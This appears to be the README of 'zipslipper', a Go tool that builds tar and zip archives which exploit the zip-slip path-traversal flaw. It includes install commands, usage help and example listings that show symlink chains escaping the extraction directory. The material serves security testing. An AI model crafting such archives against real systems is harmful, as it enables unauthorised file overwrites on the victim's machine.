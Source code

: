# zipslipper
<a href="https://github.com/NodyHub/zipslipper/actions/workflows/golangci-lint.yml"><img src="https://github.com/NodyHub/zipslipper/actions/workflows/golangci-lint.yml/badge.svg" align="right" alt="golangci-lint"></a>
Create tar/zip archives that try to exploit zipslip vulnerability.

## CLI Tool

You can use this library on the command line with the `zipslipper` command.

### Pre-Build release

Download a pre-build release for your system architecture from the [release page](https://github.com/NodyHub/zipslipper/releases).

### Installation

```cli
go install github.com/NodyHub/zipslipper@latest
```

### Manual Build and Installation

```cli
git clone git@github.com:NodyHub/zipslipper.git
cd zipslipper
make
make install
```

## Usage

Basic usage on cli:

```shell
% zipslipper -h
Usage: zipslipper <input> <relative-path> <output-file> [flags]

A utility to build tar/zip archives that performs a zipslip attack.

Arguments:
  <input>            Input file.
  <relative-path>    Relative extraction path.
  <output-file>      Output file.

Flags:
  -h, --help                  Show context-sensitive help.
  -t, --archive-type="zip"    Archive type. (tar, zip)
  -v, --verbose               Verbose logging.
  -V, --version               Print release version information.
```

## Usage example

### Zip

```shell
(main[2]) ~/git/zipslipper% zipslipper go.mod ../../foo/bar/go.mod test.zip
(main[2]) ~/git/zipslipper% unzip -l test.zip
Archive:  test.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  09-20-2024 11:01   sub/
        3  09-20-2024 11:01   sub/root
        3  09-20-2024 11:01   sub/root/outside
        3  09-20-2024 11:01   sub/root/outside/0
        3  09-20-2024 11:01   sub/root/outside/0/1
        0  09-20-2024 11:01   sub/root/outside/0/1/foo/
        0  09-20-2024 11:01   sub/root/outside/0/1/foo/bar/
      103  09-20-2024 08:39   sub/root/outside/0/1/foo/bar/go.mod
---------                     -------
      115                     8 files
```

### Tar

```shell
(main[2]) ~/git/zipslipper% zipslipper -t tar go.mod ../../foo/bar/go.mod test.tar
(main[2]) ~/git/zipslipper% tar ztvf test.tar
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0 -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1 -> ../
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1/foo/
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1/foo/bar/
-rw-r--r--  0 jan    staff     103 20 Sep 08:39 sub/root/outside/0/1/foo/bar/go.mod
```
